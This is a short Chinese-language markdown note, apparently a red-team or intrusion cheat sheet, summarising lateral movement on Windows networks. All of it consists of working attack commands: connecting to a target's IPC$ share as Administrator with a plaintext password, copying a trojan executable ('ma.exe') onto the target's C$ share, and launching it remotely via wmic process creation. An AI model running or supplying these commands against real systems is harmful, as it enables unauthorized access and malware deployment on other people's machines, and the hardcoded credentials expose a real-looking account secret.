 ## 碰见的移动方法总结

    主机开启139和445端口，IPC移动
    ```
    shell net use \\\\192.168.10.23\\ipc$ "Psft24680!!@@62##" /user:"Administrator"
    ```
    
    在本地传个马，copy过去
    
    ```
    shell copy C:\\Windows\\Temp\\ma.exe \\\\192.168.10.23\\c$\\Windows\\Temp\\ma.exe
    ```
    
    VMIC执行
    
    ```
    shell wmic /node:192.168.10.23 /user:Administrator /password:Psft24680!!@@62## process call create "cmd.exe /c C:\\Windows\\Temp\\ma.exe"
    ```
